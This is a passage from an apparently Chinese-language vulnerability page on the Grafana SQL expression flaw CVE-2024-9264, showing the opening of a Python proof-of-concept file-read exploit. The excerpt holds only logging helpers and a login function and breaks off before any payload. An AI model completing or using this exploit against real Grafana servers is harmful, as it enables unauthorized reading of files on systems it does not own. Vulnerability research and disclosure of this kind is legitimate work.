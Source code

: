 ![](images/Grafana%20SQL%20表达式远程代码执行漏洞%20CVE-2024-9264/image-20241105151930751.png)

## 漏洞 POC

```python
#!/usr/bin/env python3

"""
Grafana File Read PoC (CVE-2024-9264)
Author: z3k0sec // www.zekosec.com
"""


import requests
import json
import sys
import argparse

class Console:
    def log(self, msg):
        print(msg, file=sys.stderr)

console = Console()

def msg_success(msg):
    console.log(f"[SUCCESS] {msg}")

def msg_failure(msg):
    console.log(f"[FAILURE] {msg}")

def failure(msg):
    msg_failure(msg)
    sys.exit(1)

def authenticate(s, url, u, p):
    res = s.post(f"{url}/login", json={"password": p, "user": u})
    if res.json().get("message") == "Logged in":
        msg_success(f"Logged in as {u}:{p}")
```